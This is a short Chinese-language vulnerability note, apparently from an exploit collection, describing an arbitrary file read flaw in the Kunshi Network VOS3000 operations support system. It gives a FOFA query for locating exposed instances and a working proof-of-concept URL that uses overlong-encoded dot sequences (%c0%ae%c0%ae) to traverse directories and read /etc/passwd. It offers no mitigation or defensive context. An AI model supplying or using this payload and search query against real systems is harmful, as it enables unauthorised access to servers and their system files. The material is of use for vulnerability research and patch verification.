

# 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## FOFA

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面



验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

